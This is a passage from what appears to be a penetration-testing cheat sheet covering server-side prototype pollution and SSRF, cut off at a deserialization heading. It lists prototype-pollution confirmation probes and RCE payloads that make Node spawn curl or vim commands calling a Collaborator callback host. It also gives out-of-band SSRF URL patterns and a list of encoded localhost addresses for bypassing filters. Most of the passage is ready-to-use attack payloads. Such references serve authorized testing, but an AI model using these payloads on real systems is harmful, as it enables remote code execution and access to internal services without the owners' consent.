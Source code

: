 *   URI String
    *   `ppscan() [URL]`
*   JSON Input
    *   Burp Extension → Server-Side Prototype Pollution Scanner
    *   Confirmation
        *   `"__proto__":{ "foo":"bar" }`           → Data Reflection / Object Assignment
        *   `"__proto__":{ "status":400 }`         → Status Code Override
        *   `"__proto__":{ "json spaces":10 }` → Indentation Change
        *   `"__proto__":{ "content-type": "application/json; charset=utf-7" }` → `"+AGYAbwBv-"` + `foo`
        *   Obfuscation
            *   `"constructor": { "prototype": { [PAYLOAD] } }`
    *   RCE Payloads
        *   `"__proto__": { "shell":"node", "NODE_OPTIONS":"--inspect=BURP-COLLABORATOR-ID.oastify.com\"\".oastify\"\".com" }`
        *   `"__proto__": { "execArgv":[ "--eval=require('child_process').execSync('curl https://COLLABORATOR-ID.oastify.com')" ] }`
        *   `"__proto__": { "shell":"vim", "input":":! curl https://COLLABORATOR-ID.oastify.com\n" }`

### SSRF

*   Enumeration
    *   URI Fetching Parameters
    *   PDF Rendering
    *   [SSRFMap](https://github.com/swisskyrepo/SSRFmap) / [Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery#ssrf-exploitation-via-url-scheme) / [Techniques](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery) / [HTB Module](https://academy.hackthebox.com/module/details/145)
*   OOB
    *   `http[s]://[collab]`
    *   `http[s]://[whitelisted]:random@[collab]`
    *   `http[s]://[collab]#[whitelisted]`
    *   `http[s]://[whitelisted].[collab]`
*   Blind Fuzzing
    *   `[protocol]://[localhost]:[port]` → Status / Timing / Content Difference → Rersponse Data / WebServers
    *   Localhost Values
        *   `127.0.0.1`
        *   `[0:0:0:0:0:ffff:127.0.0.1]`
        *   `[::ffff:127.0.0.1]`
        *   `[::]`
        *   `[0000::1]`
        *   `2130706433`
        *   `0`
        *   `127.1`
        *   `localhost:00011211aaaa`
        *   `0o177.0.0.1`
        *   `google.127.0.0.1.nip.io`
        *   `make-1-1-1-1-rebind-127.0.0.1-rr.1u.ms`

### Deserialization
